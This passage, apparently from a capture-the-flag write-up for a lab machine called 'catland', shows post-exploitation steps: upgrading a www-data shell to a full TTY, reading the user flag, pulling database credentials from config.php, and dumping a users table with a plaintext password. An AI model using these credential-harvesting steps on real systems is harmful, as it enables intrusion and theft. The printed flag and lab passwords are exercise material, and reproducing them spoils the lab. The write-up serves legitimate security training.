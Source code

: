 I obtained a shell as the `www-data` user. I then upgraded it to a full TTY shell:

```shellscript
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@catland:/$
```

### 5. User Flag and Database Credentials

As `www-data`, I navigated to `/home/laura` and found the `user.txt` file.

```shellscript
www-data@catland:/$ cd /home/laura
www-data@catland:/home/laura$ ls -la
# ... (truncated output) ...
-rwx------ 1 laura laura   33 Jan  1  2023 user.txt
www-data@catland:/home/laura$ cat user.txt
933ff8025e8944b6b3b797b2f006b2c0
```

The user flag is `933ff8025e8944b6b3b797b2f006b2c0`.

Next, I looked for configuration files in the web root. I found `config.php` in `/var/www/admin/`.

```shellscript
www-data@catland:/var/www/admin$ cat config.php
<?php
$hostname = "localhost";
$database = "catland";
$username = "admin";
$password = "catlandpassword123";
$conn = mysqli_connect($hostname, $username, $password, $database);
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}
?>
```

This file contained database credentials: `username = "admin"`, `password = "catlandpassword123"`. I used these to connect to the MariaDB database.

```shellscript
www-data@catland:/var/www/admin$ mysql -u admin -p
Enter password: catlandpassword123
Welcome to the MariaDB monitor.
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| catland            |
| information_schema |
+--------------------+
MariaDB [(none)]> use catland;
Database changed
MariaDB [catland]> show tables;
+-------------------+
| Tables_in_catland |
+-------------------+
| comment           |
| users             |
+-------------------+
MariaDB [catland]> select * from users;
+----------+------------+
| username | password   |
+----------+------------+
| laura    | laura_2008 |
+----------+------------+
```
